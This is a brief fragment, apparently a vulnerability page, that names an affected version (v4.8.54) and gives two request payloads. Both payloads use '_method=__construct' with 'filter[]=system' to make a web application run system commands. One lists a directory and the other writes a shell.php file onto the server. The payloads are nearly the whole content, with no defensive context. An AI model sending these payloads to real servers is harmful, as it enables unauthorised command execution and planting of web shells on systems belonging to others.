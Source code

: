 <languages />

Vulnerability Impact
--------------------

v4.8.54

Payload
-------

    s=dir&_method=__construct&method=*&filter[]=system

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct